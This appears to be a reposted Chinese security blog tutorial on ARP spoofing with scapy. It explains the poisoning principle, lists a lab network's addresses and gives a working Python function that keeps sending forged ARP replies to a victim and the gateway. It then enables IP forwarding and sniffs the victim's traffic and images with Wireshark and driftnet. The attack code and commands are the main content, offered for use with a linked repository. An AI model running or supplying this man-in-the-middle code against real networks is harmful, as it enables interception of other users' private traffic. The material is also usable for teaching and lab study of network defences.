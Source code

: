 > 原文链接: https://www.anquanke.com//post/id/151337 


# 使用scapy进行ARP攻击


                                阅读量   
                                **178540**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">5</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p3.ssl.qhimg.com/t01c450ca946da4aa4a.jpg)](https://p3.ssl.qhimg.com/t01c450ca946da4aa4a.jpg)

ARP协议并不只在发送了ARP请求才接收ARP应答。当计算机接收到ARP应答数据包的时候，就会对本地的ARP缓存进行更新，将应答中的IP和MAC地址存储在ARP缓存中。因此，当局域网中的某台机器B向A发送一个自己伪造的ARP应答，而如果这个应答是B冒充C伪造来的，即IP地址为C的IP，而MAC地址是伪造的，则当A接收到B伪造的ARP应答后，就会更新本地的ARP缓存，这样在A看来C的IP地址没有变，而它的MAC地址已经不是原来那个了。<br>
通过ARP欺骗可以对内网数据进行嗅探，在内网渗透中往往也是重要的一部分。



## 实验环境如下

无线网关：<br>
IP:192.168.199.1<br>
MAC: d4-ee-07-67-40-68<br>
普通用户：<br>
IP：192.168.199.213<br>
MAC：5c:93:a2:fe:29:e3<br>
攻击者：<br>
IP：192.168.199.229<br>
MAC：30-b4-9e-67-25-47<br>
实验环境图如下：[![](https://p5.ssl.qhimg.com/t01e8588375120acef5.png)](https://p5.ssl.qhimg.com/t01e8588375120acef5.png)



## 一、ARP 欺骗原理

攻击者通过构造两种ARP响应包，分别欺骗普通用户和网关路由器。<br>
第一种ARP包中源IP为网关IP(192.168.199.1)，源MAC为攻击者MAC(30:b4:9e:67:25:47)，目的IP为普通用户IP(192.168.199.213)，目的MAC为普通用户MAC(5c:93:a2:fe:29:e3)。当用户收到此ARP报文则将ARP表中网关的MAC地址更新为攻击者的MAC(30:b4:9e:67:25:47)。当普通转发数据时数据则会发向攻击者的PC上，由攻击者进行数据转发。<br>
第二种ARP包中源IP为普通用户IP(192.168.199.213)，但源MAC为攻击者MAC(30:b4:9e:67:25:47)，目的IP为网关IP(192.168.199.1)，目的MAC为网关MAC(d4:ee:07:67:40:68)。网关收到此ARP将ARP表中普通用户的MAC更新为攻击者MAC(30:b4:9e:67:25:47)。<br>
实现代码如下：<br>
`def poison_target(gateway_ip,gateway_mac,target_ip,target_mac):

```
poison_target=ARP()
poison_target.op=2
poison_target.psrc=gateway_ip
poison_target.pdst=target_ip
poison_target.hwdst=target_mac
poison_gateway=ARP()
poison_gateway.op=2
poison_gateway.psrc=target_ip
poison_gateway.pdst=gateway_ip
poison_gateway.hwdst=gateway_mac
print "[*] Beginning the ARP poison.[CTRL-C to stop]"
while True:
    try:
        send(poison_target)
        send(poison_gateway)
        print "send sucess!"
        time.sleep(2)
    except KeyboardInterrupt:
        restore_target(gateway_ip,gateway_mac,target_ip,target_mac)
print "[*] ARP poison attack finished."
return
```

通过不间断的发送这两种ARP报文，攻击者以中间人的形式窃取数据报文。

实验前普通用户PC机中ARP表如下：<br>[![](https://p1.ssl.qhimg.com/t014886088349fd1182.png)](https://p1.ssl.qhimg.com/t014886088349fd1182.png)<br>
实验开始前，需打开攻击者的路由转发功能，若未开启转发攻击，普通用户则无法正常访问外网。<br>`echo 1 &gt; /proc/sys/net/ipv4/ip_forward`<br>
运行脚本:<br>[![](https://p4.ssl.qhimg.com/t016e5570bc8aa4f82d.png)](https://p4.ssl.qhimg.com/t016e5570bc8aa4f82d.png)<br>
查看普通用户的ARP表项：<br>[![](https://p4.ssl.qhimg.com/t014201baa29f04bcb1.png)](https://p4.ssl.qhimg.com/t014201baa29f04bcb1.png)



## 二、进行数据包抓取

使用scapy抓包代码如下：<br>[![](https://p4.ssl.qhimg.com/t015b0f90663f886554.png)](https://p4.ssl.qhimg.com/t015b0f90663f886554.png)<br>
成功进行了ARP欺骗，访问外网，能正常访问<br>[![](https://p5.ssl.qhimg.com/t01bcd9bb44188a1b5c.png)](https://p5.ssl.qhimg.com/t01bcd9bb44188a1b5c.png)<br>
在攻击者PC上抓取的数据包，并用wireshark打开如下：<br>[![](https://p4.ssl.qhimg.com/t01168593e03b5e8ecd.png)](https://p4.ssl.qhimg.com/t01168593e03b5e8ecd.png)



## 三、图片浏览

当被攻击用户同浏览器访问图片文件时，可搭配driftnet进行图片抓取<br>`driftnet -i wlan0`<br>
抓取图片如下：[![](https://p3.ssl.qhimg.com/t0149ddade02768261e.png)](https://p3.ssl.qhimg.com/t0149ddade02768261e.png)<br>
参考文章：《Black Hat Python》

代码托管：[https://github.com/fishyyh/arppoison.git](https://github.com/fishyyh/arppoison.git)

审核人：yiwang   编辑：边边
